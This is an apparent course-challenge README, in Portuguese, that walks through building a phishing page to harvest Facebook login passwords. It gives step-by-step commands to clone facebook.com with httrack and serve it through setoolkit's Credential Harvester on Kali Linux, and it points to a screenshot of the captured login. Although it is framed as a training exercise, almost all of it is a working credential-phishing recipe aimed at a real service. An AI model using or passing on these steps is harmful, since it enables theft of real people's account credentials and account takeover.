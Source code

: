 # digital-inovation-one_Facebook-Phishing
"Neste desafio de projeto, iremos criar um Phishing para capturar senhas de login do Facebook."

# Phishing para captura de senhas do Facebook

O método apresentado no modulo "Criação de um Phishing com o Kali Linux" não retornou nenhuma senha ou usuário portanto foi necessesário utilizar uma maneira alternativa com httrack

### Ferramentas

- Kali Linux
- setoolkit
- httrack
  
### Método alternativo

- Acesso root: ``` sudo su ```
- Baixando httrack: ```apt install httrack```
- Clonando a página: ```httrack https://www.facebook.com -O /home/kali/facebook ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Cloner Import ```
- ```Enter```
- Passando o caminho: ``` /home/kali/facebook/m.facebook.com/```
- Site clonado: ```m.facebook.com```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Acessar utilizando ```ip.do.host:porta_host```

### Resutados
![Alt text](./loginphishing.png " ")
